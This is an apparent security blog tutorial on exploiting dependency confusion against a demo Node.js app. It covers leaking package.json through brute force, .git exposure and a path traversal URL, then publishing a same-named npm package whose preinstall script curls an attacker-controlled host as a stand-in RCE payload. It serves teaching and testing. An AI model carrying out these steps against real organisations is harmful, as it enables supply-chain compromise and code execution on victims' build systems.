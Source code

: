 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-07-02 13:37:31
description: Exploiting Dependency Confusion
---
```


This blog is a step by step guide to exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, you can read about that [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The Frontend allows users to input a string which is sent to backend and checked against XSS payload in it. Backend checks if string from frontend has XSS payload in it or not and relay response back to Frontend.

### Backend

Backend is running at http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running at http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result backe on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find as much as possible external packages used in the web application.
### What are packages?

We can think of packages as `Developers sharing code with other developers for reuse`. 

### Public vs Private Registry

Suppose a developer develops a mongo database wrapper to enable MongoDB connection. If he wantes to avail this package to other developers, he can make a package and publish it to an `public` registry(central repository) and other developers can reuse it. 

In case you do not want to share your package with everyone in the world and keep it secret to people in your organization you can host your packages on a `private` organization registry and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So you can always host a private registry and host your private packages there. You can read more [here](https://verdaccio.org/)

## Exploiting demo app

Our primary objective as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works. It first looks at public registry and then private registry).
### Step 1

Find Packages installed in backend application. For this we will need to leak the **package.json** file somehow. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json try reading **package.json** directly
    * http://site.com/package-lock.json try reading **package-lock.json** directly. It also contains information about packages installed.

* Using Nuclei template. [Nuclei](https://github.com/projectdiscovery/nuclei) has numerous template for sensitive information leak. 
    * RUN `nuclei -t ./nuclei-templates/exposures/configs/package-json.yaml -u http://demo-app.com:1337`
    ![](/website/assets/images/dep-conf-14.png)

* Leaking application' source code. If application is vulnerable to Local file disclosure, we can use it to leak **package.json**
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and other places. If we get application's source code, we can extract **package.json** from it

etc.. The Objective here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see that **package.json** file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. Follow the following steps:
* Reviewing frontend source code and looking for imported packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Applications usually do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is **NOT** on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I can't find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit `package.json` following fields
    * Change module name from `"name": "your-module-name",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version from `"version": "1.0.0",` to `"version": "1.0.0",`
        * Th leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use that same version
    * Change preinstall script from `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the bash command that gets executed. Put your RCE payload here
    After Editing, the `package.json` should look like:
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from [https://zellwk.com/blog/publish-to-npm/](https://zellwk.com/blog/publish-to-npm/) . Here's the same steps:
    * Login/Signup into npm from [https://www.npmjs.com/signup](https://www.npmjs.com/signup)
    * Open terminal/bash and login into `npm` public registry from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run `npm publish .` in terminal and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on [https://npmjs.com](https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 6 steps, you should be able to properly test an application against dependency confusion vulnerability. 

Nuclei have a template [here](https://github.com/projectdiscovery/nuclei-templates/blob/83ce809e8d427d485f3e0f787886c0eb938736a6/exposures/configs/package-json.yaml) which you can use to find `package.json` file. 

I hope this helps. Thanks for reading 
Special thanks to [Santhosh](https://twitter.com/Madrobot_) for proof reading and helping me write this blog.

